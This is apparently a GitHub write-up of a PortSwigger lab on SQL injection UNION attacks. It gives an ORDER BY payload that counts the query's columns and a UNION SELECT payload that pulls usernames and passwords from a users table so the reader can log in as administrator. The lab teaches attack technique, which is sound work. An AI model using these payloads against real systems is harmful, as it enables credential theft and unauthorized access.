



# SQL injection UNION attack, retrieving data from other tables

**Lab Url**: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)



## Objective

The lab objective is to retrive data from other tables.

## Solution

We can use the below payload on the category parameter to determine the number of columns returned by the query.

```bash
/filter?category=Gifts'+order+by+2+--
```

If the number of required columns is not equal to `2` you have to adjust your payload using `NULL`.

**The description says that there is a users table with columns called `username` and `password`. Use the following payload to retrieve the contents of `users` table:**

```bash
'+union+select+username,password+from+users+--
```

Retrieve the password of the administrator and log in as an administrator to solve this lab.




